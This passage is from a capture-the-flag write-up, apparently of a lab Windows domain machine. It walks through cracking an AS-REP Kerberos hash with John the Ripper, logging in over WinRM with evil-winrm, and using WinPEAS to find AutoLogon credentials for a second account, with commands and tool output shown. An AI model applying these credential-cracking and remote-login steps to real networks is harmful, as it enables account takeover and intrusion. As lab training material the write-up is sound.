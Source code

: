 Now we are left to save the hash.

    echo -n '$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:<redacted>' > tgt.hash

And now try to get the password with john.

    john tgt.hash -w=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    Thes<redacted>     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)     
    1g 0:00:00:03 DONE (2024-03-03 15:39) 0.3105g/s 3272Kp/s 3272Kc/s 3272KC/s Thrall..Thehunter22
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed.


<a id="org6cc7d11"></a>

# Initial Access

With the gained credentials fsmith / Thestrokes23 we can try to login using WinRM (port
5985). Windows Remote Management (WinRM), is a Windows-native built-in remote management
protocol and it is often enabled for users that need to manage systems remotely. We can use evilwinrm to connect to the remote system.

    evil-winrm -i 10.10.10.175 -u fsmith -p 'Thes<redacted>'


<a id="org9ffc5e8"></a>

# Privilege Escalation

Having gained a foothold on the machine, we can use a script such as WinPEAS to automate
enumeration tasks. Use the upload command from our current WinRM session to transfer the
binary to the remote server, and then run it.

    *Evil-WinRM* PS C:\Users\FSmith\Documents> WinPeasex64.exe

The script reveals that the user `EGOTISTICALBANK\svc_loanmanager` has been set to automatically log in, and this account has the password releved by the scripts.

    ����������͹ Looking for AutoLogon credentials
        Some AutoLogon credentials were found
        DefaultDomainName             :  EGOTISTICALBANK
        DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
        DefaultPassword               :  <redacted>
    
    ����������͹ Password Policies

The command net user `svc_loanmgr` reveals that this user is also part of the `Remote Management Users group`. Use evil-winrm again to login as this new user.

    evil-winrm -i 10.10.10.175 -u svc_loanmgr -p '<redactede>'
